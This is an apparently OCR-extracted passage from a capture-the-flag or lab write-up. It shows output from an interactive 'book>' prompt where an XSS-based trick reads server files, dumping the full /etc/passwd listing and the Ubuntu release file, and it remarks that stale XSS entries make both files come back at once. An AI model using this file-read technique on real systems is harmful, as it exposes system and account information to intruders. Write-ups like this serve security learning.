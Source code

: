     dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL   Server,,,:/nonexistent:/bin/false
    

#### Issues

If I don’t wait a minute before sending the next query, both XSS entries will
still be there, and therefore the request will return both files:

    
    
    book> /etc/lsb-release
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin      www-data:x:33:33:www-
    data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing    List    Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin        gnats:x:41:41:Gnats
    Bug-Reporting   System  (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin      systemd-
    network:x:100:102:systemd       Network
    Management,,,:/run/systemd/netif:/usr/sbin/nologin      systemd-
    resolve:x:101:103:systemd
    Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL   Server,,,:/nonexistent:/bin/false
    DISTRIB_ID=Ubuntu       DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic DISTRIB_DESCRIPTION="Ubuntu
    18.04.2 LTS"
    book> 
    
